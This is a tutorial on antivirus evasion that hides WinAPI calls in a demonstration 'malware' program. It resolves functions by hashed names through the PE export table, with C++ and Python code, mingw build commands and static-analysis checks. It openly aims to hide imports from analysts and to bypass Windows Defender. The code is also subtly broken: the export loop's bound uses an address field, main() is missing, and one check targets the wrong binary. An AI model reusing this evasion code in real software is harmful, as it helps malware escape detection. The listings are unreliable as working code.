

# 04 evasion: winapi hashing

Another AV evasion trick. An example how to bypass AV engines in simple C++ malware.    

This is a simple but efficient technique for hiding WinAPI calls. It is calling functions by hash names and it's simple and often used in the "wild".    

Let's look all at an example and you'll understand that it's not so hard.    

Let’s look at an example:    

```cpp
/*
 * malware AV evasion
 * hack.c - without hashing WINAPI functions.
 * author: @cocomelonc
*/
#include <windows.h>

int main() {
  MessageBoxA(NULL, "Hello, Prishtina!", "=^..^=", MB_OK);
  return 0;
}
```

Compile it:    

```bash
i686-w64-mingw32-g++ hack.c -o hack.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -Wint-to-pointer-cast -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

     

Run it:    

```powershell
.\hack.exe
```

    

As expected, it's just a pop-up window.    

Then run strings:    

```bash
strings -n 8 hack.exe | grep "MessageBox"
```

    

As you can see, the WinAPI function are explicitly read in the basic static analysis and:    

```bash
objdump -x -D hack.exe | less
```

    

visible in the application's import table.    

Now let's hide the WinAPI function `MessageBoxA` we are using from malware analysts. Let’s hash it:    

```python
# simple stupid hashing example
def myHash(data):
    hash = 0x35
    for i in range(0, len(data)):
        hash += ord(data[i]) + (hash << 1)
    print (hash)
    return hash

myHash("MessageBoxA")
```

and run it:    

```bash
python3 myhash.py
```

    

What's the main idea? The main idea is we create code where we find WinAPI function address by it's hashing name via enumeration exported WinAPI functions.    

First of all, let’s declare a hash function identical in logic to the python code:    

```cpp
DWORD calcMyHash(char* data) {
  DWORD hash = 0x35;
  for (int i = 0; i < strlen(data); i++) {
    hash += data[i] + (hash << 1);
  }
  return hash;
}
```

Then, I declared function which find Windows API function address by comparing it's hash:    

```cpp
static LPVOID getAPIAddr(HMODULE h, DWORD myHash) {
  PIMAGE_DOS_HEADER img_dos_header = (PIMAGE_DOS_HEADER)h;
  PIMAGE_NT_HEADERS img_nt_header = (PIMAGE_NT_HEADERS)((LPBYTE)h + img_dos_header->e_lfanew);
  PIMAGE_EXPORT_DIRECTORY img_edt = (PIMAGE_EXPORT_DIRECTORY)(
    (LPBYTE)h + img_nt_header->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT].VirtualAddress);
  PDWORD fAddr = (PDWORD)((LPBYTE)h + img_edt->AddressOfFunctions);
  PDWORD fNames = (PDWORD)((LPBYTE)h + img_edt->AddressOfNames);
  PWORD  fOrd = (PWORD)((LPBYTE)h + img_edt->AddressOfNameOrdinals);

  for (DWORD i = 0; i < img_edt->AddressOfFunctions; i++) {
    LPSTR pFuncName = (LPSTR)((LPBYTE)h + fNames[i]);

    if (calcMyHash(pFuncName) == myHash) {
      printf("successfully found! %s - %d\n", pFuncName, myHash);
      return (LPVOID)((LPBYTE)h + fAddr[fOrd[i]]);
    }
  }
  return nullptr;
}
```

The logic here is really simple. first we go through the PE headers to the exported functions we need. In the loop, we will look at and compare the hash passed to our function with the hashes of the functions in the export table and, as soon as we find a match, exit the loop:    

```cpp
//...
for (DWORD i = 0; i < img_edt->AddressOfFunctions; i++) {
  LPSTR pFuncName = (LPSTR)((LPBYTE)h + fNames[i]);

  if (calcMyHash(pFuncName) == myHash) {
    printf("successfully found! %s - %d\n", pFuncName, myHash);
    return (LPVOID)((LPBYTE)h + fAddr[fOrd[i]]);
  }
}
//...
```

Then we declare prototype of our function:    

```cpp
typedef UINT(CALLBACK* fnMessageBoxA)(
  HWND   hWnd,
  LPCSTR lpText,
  LPCSTR lpCaption,
  UINT   uType
);
```

and `main()`:    

   

Let's go to compile our modified malware:    

```bash
i686-w64-mingw32-g++ hack2.c -o hack2.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -Wint-to-pointer-cast -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

    

and run:    

```powershell
.\hack2.exe
```

    

As you can see, our logic is worked! Perfect :)    

Recheck IAT:    

```bash
objdump -x -D hack2.exe | less
```

     

Recheck it via `strings`:    

```bash
strings -n 8 hack.exe | grep MessageBox
```

    

If we delve into the investigate of the malware, we, of course, will find our hashes, strings like `user32.dll`, and so on. But this is just a case study.    

Many several years this trick is bypass Windows Defender's static analysis :)     